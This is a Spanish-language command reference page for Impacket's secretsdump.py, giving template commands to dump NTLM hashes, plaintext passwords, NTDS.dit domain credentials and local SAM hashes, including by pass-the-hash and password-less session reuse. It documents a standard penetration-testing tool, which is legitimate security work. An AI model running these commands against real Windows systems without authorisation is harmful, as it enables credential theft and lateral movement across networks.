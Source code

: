 # secretsdump.py

> Vuelca hashes NTLM, contraseñas en texto plano y credenciales de dominio de sistemas Windows remotos.
> Parte de la suite Impacket.
> Más información: <https://github.com/fortra/impacket>.

- Vuelca credenciales de una máquina Windows utilizando un nombre de usuario y una contraseña:

`secretsdump.py {{dominio}}/{{nombre_de_usuario}}:{{contraseña}}@{{objetivo}}`

- Vuelca hashes de una máquina utilizando autenticación pass-the-hash:

`secretsdump.py -hashes {{LM_Hash}}:{{NT_Hash}} {{dominio}}/{{nombre_de_usuario}}@{{destino}}`

- Vuelca credenciales del archivo NTDS.dit de Active Directory:

`secretsdump.py -just-dc {{dominio}/{{nombre_usuario}}:{{contraseña}}@{{destino}}`

- Extrae credenciales de una base de datos SAM local utilizando archivos hives del registro:

`secretsdump.py -sam {{ruta/a/SAM}} -system {{ruta/a/SYSTEM}}`

- Vuelca hashes de una máquina sin proporcionar una contraseña (si existe una sesión de autenticación válida, por ejemplo, a través de Kerberos o NTLM SSO):

`secretsdump.py -no-pass {{dominio}}/{{nombre_usuario}}@{{destino}}`
